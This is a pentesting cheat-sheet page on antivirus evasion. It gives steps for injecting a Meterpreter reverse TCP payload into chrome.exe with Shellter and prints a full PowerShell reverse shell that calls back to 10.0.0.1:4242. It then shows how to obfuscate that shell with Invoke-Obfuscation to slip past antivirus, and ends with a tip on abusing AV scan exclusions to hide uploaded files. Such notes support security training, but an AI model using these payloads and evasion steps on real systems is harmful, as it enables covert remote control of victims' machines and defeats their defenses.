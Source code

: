 ```yaml
---
title: "AV Evasion"
weight: 3
---
```


# AV Evasion


## AV evasion with shellter

* Shellter is a dynamic shellcode injection tool aka dynamic PE infector. It can be used in order to inject shellcode into native Windows applications (currently 32-bit apps only). The shellcode can be something yours or something generated through a framework, such as Metasploit. Shellter takes advantage of the original structure of the PE file and doesn’t apply any modification such as changing memory access permissions in sections (unless the user wants to), adding an extra section with RWE access, and whatever would look dodgy under an AV scan.
* Install (https://www.kali.org/tools/shellter/)
* How to use (example)
  * Start shellter
  * Choose operation mode: `A` (automatic)
  * PE target: `/path/to/file/chrome.exe`
  * Enable stealth mode? `Y` (in this way the executable works as intended)
  * Select the payload you want (you can also generate a new one)
    * For this example we select a listed payload (meterpreter reverce tcp)
  * Set lhost and lport
  * Now the exe will be overwrite (but shellter creates a backup of the original exe)
  * Set listener (ex. multi/handler), download the exe on the target machine and execute

---

## AV evasion for powershell script - Invoke-Obfuscation

* https://github.com/danielbohannon/Invoke-Obfuscation
* Require powershell (`sudo apt install powershell -y`). You can run powershell with `pwsh`
* cd into invoke-obfuscation folder
* `Import-Module ./Invoke-Obfuscation.psd1`
* `Invoke-Obfuscation`
* Copy a reverse shell in poweshell (example): `powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`
* Remove `powershell -nop -c` and `" "`
* `$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
* Set lhost and lport and save (example) as `shell.ps1`
* On Invoke-Obfuscation `SET SCRIPTPATH /path/to/shell.ps1`
* Set `AST` options (The AST options works better with windows 10...
* Choose one of the AST module: `ALL`
* Choose one of the AST\ALL options to apply to current payload: `1`
* In the result you will get the result obfuscated code. Copy and save the code
* Set listener (ex. multi/handler), download the exe on the target machine and execute

---

## Tips

* See the process of antivirus with `ps auxww`.  Sometimes you can see that the antivirus exclude some directory ...&#x20;
  * `clamscan -r --exclude-dir=/test /` . Upload the file in `/test`.
